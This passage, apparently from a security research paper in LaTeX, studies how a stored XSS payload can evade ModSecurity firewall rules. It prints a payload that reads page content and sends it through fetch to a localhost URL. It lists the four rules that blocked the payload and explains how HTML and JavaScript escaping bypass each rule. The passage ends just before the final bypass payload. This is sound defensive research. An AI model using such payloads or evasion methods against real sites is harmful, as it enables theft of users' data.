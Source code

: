 \subsubsection{HTML encoding + JavaScript normal character escape}
\label{sec:htmlencjsesc}
The following payload could be used by an attacker intending to employ stored XSS to exfiltrate secrets \cite{swigger/storedxss}.
It was blocked by the ModSecurity firewall based on 4 rule triggers:
\begin{lstlisting}[style=ruleStyle, language=XML, caption=stored xss payload blocked, label={lst:storedxssblocked}]
<payload><a href=javascript:var secret = document.getElementsByName('name')[0].innerHTML;var data = {body:secret,method:'POST'};fetch('http://localhost:3001/api/ping?secret=something',data)>ClickMeFor$</a></payload>

<message>"Possible Server Side Request Forgery (SSRF) Attack: Cloud provider metadata URL in Parameter"</message>
<file>"/rules/REQUEST-934-APPLICATION-ATTACK-GENERIC.conf"</file>
<fileDetails>[line "88"] [id "934110"]<fileDetails>
<MatchedData>"http://localhost"</MatchedData>

<message>"NoScript XSS InjectionChecker: Attribute Injection"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "225"] [id "941170"]<fileDetails>
<MatchedData>"javascript:[...]"</MatchedData>

<message>"Node-Validator Deny List Keywords"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "252"] [id "941180"]<fileDetails>
<MatchedData>".innerhtml"</MatchedData>

<message>"IE XSS Filters - Attack Detected"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "323"] [id "941210"]<fileDetails>
<MatchedData>"javascript:v"</MatchedData>
\end{lstlisting}

As the payload is meant to be injected into an html document, HTML escaping can be used to escape certain characters.
On escaping of the character \verb|a| in \verb|j&#97vascript|, the payload evaded the rules with ids \verb|941170| and \verb|941210|.
On escaping the \verb|.| in \\ \verb|getElementsByName('name')[0]&#46innerHTML|, the payload evaded rule \verb|941180|.
Finally one of the \verb|/| in the url-string given to the JavaScript function \verb|fetch| is escaped by prepending it with a \verb|\|.
Escaping any normal character with a \verb|\| is allowed in JavaScript (Section~\ref{sec:jsescape}) and successfully made the payload evade the last remaining rule: \verb|934110|.
The bypassing payload:

